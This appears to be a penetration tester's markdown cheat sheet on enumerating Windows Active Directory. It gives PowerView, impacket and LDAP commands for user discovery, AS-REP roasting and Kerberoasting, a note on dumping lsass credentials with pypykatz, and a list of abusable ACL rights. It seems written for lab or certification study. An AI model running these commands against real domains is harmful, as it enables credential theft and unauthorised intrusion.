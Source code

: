 # Windows Active Directory Enumeration.

#### check-list
- [PayloadAllTheThings](https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [S1ckB0y1337](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
- [PowerView](https://powersploit.readthedocs.io/en/latest/Recon/)
- check ldap for system/users informations
- check smb for shares
- check rpcbind for system/users informations
- check impacket examples scripts
- generate usernames from `fname lname` wordlist [namemash.py](https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py)
```powershell
# enuemrate valid users through kerberos
./kerbrute
# enumerate users do not require Kerberos preauthentication
GetNPUsers.py EGOTISTICAL-BANK.local/ -no-pass -usersfile usernames
# request other users krbt hash if you have a user cerdentials
GetUserSPNs.py
# runas user in a domain using credentials, or use bloodhound-python
runas /netonly /user:support cmd.exe
##
Get-NetUser -SPN #Kerberoastable users
# Show computerss 
Get-NetComputer | select operatingsystem,dnshostname
# Check if current user is logged in to a specific computer, or using PsLoggedOn, use your creds to access available targets
Get-NetSession -ComputerName web04
.\PsLoggedon.exe \\web04
# show AD computers
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
# Enumerate SPNs
setspn -L iis_service
Get-NetUser -SPN | select samaccountname,serviceprincipalname
# enumerate ACLs
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
# enum domain shares
Find-DomainShare
```
#### notes 
- use `runas` to connect to domain using user credentials and run bloodhound or use the credentials in bloodhoud from python
- lsass stores credentials that can be dumped using pypykatz

```powershell
# enumerate domain users and groups
net user /domain
net group /domain
# find PDC
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
([adsi]'').distinguishedName
```

```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.FindAll()


```

- LDAP search
```powershell
function LDAPSearch {
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}

# e.g
LDAPSearch -LDAPQuery "(samAccountType=805306368)"
LDAPSearch -LDAPQuery "(objectclass=group)"

# Enumerate every group's members, and every member of nested groups
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) {
$group.properties | select {$_.cn}, {$_.member}
 $groupName = $group.properties.cn
    $members = $group.properties.member
    echo "Group: $groupName"
    echo "Members:"
    foreach ($member in $members) {
        echo $member
    }
 }
```

- Interesting ACLs
```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```
